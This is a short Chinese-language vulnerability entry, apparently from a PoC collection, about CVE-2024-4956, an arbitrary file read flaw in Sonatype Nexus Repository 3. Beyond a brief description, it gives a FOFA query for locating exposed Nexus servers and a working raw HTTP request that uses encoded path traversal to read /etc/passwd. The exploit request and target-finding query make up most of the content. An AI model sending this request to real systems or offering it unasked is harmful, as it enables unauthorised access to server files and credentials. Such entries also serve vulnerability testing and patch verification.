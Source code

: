 **fofa**

```
app="Nexus-Repository-Manager"
```

**一、漏洞简述**

Sonatype Nexus Repository3（Sonatype Nexus 3）是一个由Sonatype开发的仓库管理工具，用于管理和托管各种软件构件（如Maven构件、Docker镜像等）。它提供了一种集中化的方式来存储、管理和分发软件构件，以帮助团队协作和构建自动化。其存在CVE-2024-4956 任意文件读取漏洞攻击者可通过该漏洞获取服务器敏感信息。



**二、漏洞检测poc**

```yaml
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: x.x.x.x
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Connection: close
```


